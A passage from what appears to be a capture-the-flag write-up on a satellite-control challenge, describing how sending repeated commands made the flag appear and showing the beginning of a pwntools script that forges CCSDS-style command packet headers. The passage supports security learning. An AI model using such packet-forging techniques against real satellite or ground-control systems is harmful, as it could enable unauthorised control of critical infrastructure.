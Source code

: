 I was only expecting it to not increment the BAD_CMD_COUNT sometime, so I could find out the range of valid values. But after it reached 1200

![FLAG FOUND!](/assets/posts/medium/1_rbUMCcuP6CmzB1Dh1lqmxg.png)*FLAG FOUND!*

The flag poped out!

```
flag{delta76170foxtrot:GJiGsdjw9Kdc5UONnu06i42WeTMVNH1OzOKJTzIq6lJPbLCtb3AsRu2YUVGn-Slb2vnXh2vLC36D-xvKISAKD68}\x00\x19\x03\x00\x03@)L}
```

There was a very big moment of laugh in my team because of that (we were in discord and everyone was seeing my screen in that moment). That must not be a safe way to control a satellite :P

Full Script

```python

from pwn import *

import sys, struct, binascii

from pprint import pprint


APID_FLAG_PACKET = 102
APID_EPS_PACKET = 103
APID_PAYLOAD_PACKET = 105

enableflag = {
  "c_version": 0,
  "c_type": 1,
  "c_sechd": 0,
  "c_gpflags": 3,
  "c_apid": 103,
  "c_ssc": 0,
  "c_plen": 2
}

def EncodeHeader():
  data = bytearray(b'\x00' * 6)
  data[0] = (enableflag["c_version"] << 5) + (enableflag["c_type"] << 4) + (enableflag["c_sechd"] << 3) + ((enableflag["c_apid"] >> 8) & 0x7)
  data[1] = enableflag["c_apid"] & 0xFF
  data[2] = (enableflag["c_gpflags"] << 6) + (enableflag["c_gpflags"] >> 8)
```